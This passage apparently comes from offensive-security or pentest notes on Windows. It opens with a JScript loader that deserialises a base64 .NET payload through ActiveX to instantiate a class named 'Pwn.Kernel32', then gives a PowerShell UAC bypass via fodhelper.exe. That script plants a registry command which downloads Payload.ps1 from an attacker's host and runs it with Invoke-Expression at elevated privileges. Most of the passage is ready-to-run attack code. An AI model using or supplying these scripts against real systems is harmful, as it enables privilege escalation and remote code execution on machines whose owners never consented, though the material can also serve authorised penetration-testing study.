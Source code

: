 ```javascript
var entry_class = "Pwn.Kernel32";

try {
  setversion();
  var stm = base64ToStream(serialized_obj);
  var fmt = new ActiveXObject(
    "System.Runtime.Serialization.Formatters.Binary.BinaryFormatter",
  );
  var al = new ActiveXObject("System.Collections.ArrayList");
  var d = fmt.Deserialize_2(stm);
  al.Add(undefined);
  var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
} catch (e) {
  debug(e.message);
}
```

## Bypassing UAC with FodHelper

Administrative users restricted by
[User Account Control (UAC)](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works)
require interactive consent by the user to execute privileged actions. This can
be pretty frustrating if we're trying to privesc as an administrative user via
the cmdline, meterpreter session, or some other non-interactive means.

The
[fodhelper.exe](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_fodhelper/)
application allows us to execute arbitrary commands by modifying a registry key
and then invoking the application. This will be executed with administrative
privileges, and bypasses UAC. Below is a PowerShell script that demonstrates
this:

```powershell
$lHost = ${LHOST}
$lPort = ${LPORT}

New-Item `
    -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
    -Value "powershell (New-Object System.Net.WebClient).DownloadString('http://${lHost}:${lPort}/Payload.ps1') | Invoke-Expression" `
    -Force

New-ItemProperty `
    -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" `
    -Name "DelegateExecute" `
    -PropertyType String `
    -Force

Start-Process -FilePath "C:\Windows\System32\fodhelper.exe"

```
